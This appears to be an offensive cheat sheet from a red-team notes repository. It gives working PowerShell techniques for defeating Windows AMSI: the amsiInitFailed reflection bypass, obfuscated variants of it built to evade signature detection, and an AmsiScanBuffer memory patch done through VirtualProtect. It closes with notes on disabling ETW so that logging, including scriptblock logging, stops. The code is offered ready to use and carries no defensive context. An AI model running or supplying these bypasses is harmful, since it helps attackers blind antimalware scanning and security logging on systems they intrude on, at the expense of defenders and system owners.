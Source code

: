 ### AMSI
- https://amsi.fail/
- Get an AMSI bypass string and then obfuscate [manually](#Obfuscation-techniques)

#### AMSI bypass string
```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

#### AMSI bypass string obfuscated
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
$v=[Ref].Assembly.GetType('System.Management.Automation.Am' + 'siUtils');
$v."Get`Fie`ld"('ams' + 'iInitFailed','NonPublic,Static')."Set`Val`ue"($null,$true);
```

#### AMSI bypass string 2 obfuscated
```
$MethodDefinition = @"
[DllImport(`"kernel32`",  EntryPoint="GetProcAddress")]
public static extern IntPtr GetProc(IntPtr hModule, string procName);

[DllImport(`"kernel32`")]
public static extern IntPtr GetModuleHandle(string lpModuleName);

[DllImport(`"kernel32`",EntryPoint="VirtualProtect" )]
public static extern bool Virtual(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
"@;
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kern' -NameSpace 'W' -PassThru;
$ABSD = 'Ams'+'iS'+'canBuffer';
$handle = [W.Kern]::GetModuleHandle('ams'+'i.dll');
[IntPtr]$BAddress = [W.Kern]::GetProc($handle, $ABSD);
[UInt32]$Size = 0x5;
[UInt32]$PFlag = 0x40;
[UInt32]$OFlag = 0;
[W.Kern]::Virtual($BAddress, $Size, $PFlag, [Ref]$OFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);
[system.runtime.interopservices.marshal]::copy($buf, 0, $BAddress, 6);
```

### ETW
- Event Tracing for Windows
- Very effective way of hunting .NET
- Reflectivly modify the PowerShell process to prevent events being published. ETW feeds ALL of the other logs so this disabled everything!
- Also bypasses scriptblock logging
